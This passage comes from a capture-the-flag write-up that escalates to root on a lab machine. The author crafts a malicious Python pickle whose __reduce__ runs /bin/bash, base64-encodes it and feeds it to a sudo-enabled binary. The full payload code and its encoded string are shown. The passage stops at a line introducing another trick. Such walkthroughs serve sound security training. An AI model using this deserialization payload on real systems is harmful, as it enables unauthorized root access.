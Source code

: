 ~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: pickles
failed to decode base64
dill@ubuntu-xenial:/opt/peak_hill_farm$ echo -n "pickles" | base64
cGlja2xlcw==
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: cGlja2xlcw==
this not grow did not grow on the Peak Hill Farm! :(
~~~

## Becoming root

This room is about python, pickle and exploitation. Let's search on the Internet for an exploit that allows privilege escalation. I found this interesting document (https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542133788.pdf), especially on page 21. I tried the exploit for the `id` command which executed on the server. Now, let's modify the command to get a shell:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ python3
Python 3.5.2 (default, Apr 16 2020, 17:47:17) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import pickle
>>> import base64
>>> class evil_object(object):
...     def __reduce__(self):
...         return (os.system, ('/bin/bash',))
... 
>>> x = evil_object()
>>> holdit = pickle.dumps(x)
>>> base64.b64encode(holdit)
b'gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4='
>>> 
~~~

Now that we have our base64 payload, let's use it:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4=
root@ubuntu-xenial:/opt/peak_hill_farm# whoami
root
root@ubuntu-xenial:/opt/peak_hill_farm# 
~~~

Another trick to read the root flag:
